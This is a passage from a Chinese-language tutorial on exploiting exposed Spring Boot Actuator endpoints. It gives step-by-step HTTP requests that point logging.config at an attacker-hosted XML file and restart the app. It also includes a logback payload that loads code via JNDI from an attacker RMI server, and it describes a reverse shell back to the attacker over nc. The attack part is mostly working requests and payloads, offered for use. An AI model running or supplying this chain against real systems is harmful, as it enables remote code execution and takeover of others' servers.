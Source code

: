 **步骤三：设置 logging.config 属性**

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

logging.config=http://your-vps-ip/example.xml
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}
```



**步骤四：重启应用**

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



##### 利用实例

编写example.xml文档，访问192.168.233.242的RMI服务，放置在开启WEB服务的根目录下

```
<configuration>
<insertFromJNDI env-entry-name="rmi://192.168.233.242:8090/jndi" as="appName"/>
</configuration>
```



然后使用python开启个简单的http服务

```
python2  SimpleHTTPServer  -m 80
```



编写恶意RMI服务的反弹shell的JAVA代码,当用户访问该RMI服务时会导致使用nc连接到攻击者的主机，实现反向shell连接
